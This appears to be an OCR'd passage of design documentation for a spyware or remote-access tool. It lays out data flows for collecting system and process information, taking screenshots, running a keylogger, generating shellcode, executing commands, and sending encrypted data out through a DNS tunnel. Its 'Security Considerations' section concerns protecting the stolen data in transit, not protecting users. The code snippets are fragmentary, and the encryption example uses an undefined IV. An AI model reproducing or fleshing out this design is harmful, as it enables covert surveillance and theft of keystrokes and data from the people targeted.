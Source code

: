 ### Security Implementation
Encryption example:
```python
def encrypt_data(data, key):
    cipher = Cipher(
        algorithms.AES(key),
        modes.CBC(iv),
        backend=default_backend()
    )
    encryptor = cipher.encryptor()
    return encryptor.update(data) + encryptor.finalize()
```

## Module Interactions

### Data Flow
1. System Information Collection:
```python
system_info = system.get_info()
process_list = process.list_processes()
combined_data = {**system_info, 'processes': process_list}
```

2. Surveillance Data Collection:
```python
screenshot_data = surveillance.take_screenshot()
keylog_data = surveillance.start_keylogger()
surveillance_data = {
    'screenshot': screenshot_data,
    'keylog': keylog_data
}
```

3. Command Execution Flow:
```python
shellcode = shellcode_generator.generate_shellcode(...)
execution_result = shell.execute(command)
```

4. Data Exfiltration:
```python
dns_tunnel = DNSTunnel(domain)
dns_tunnel.start()
dns_tunnel.send_data(encrypted_data)
```

## Security Considerations

### Data Protection
- All sensitive data is encrypted before transmission
- Keys are never stored in plaintext
- Memory is cleared after cryptographic operations
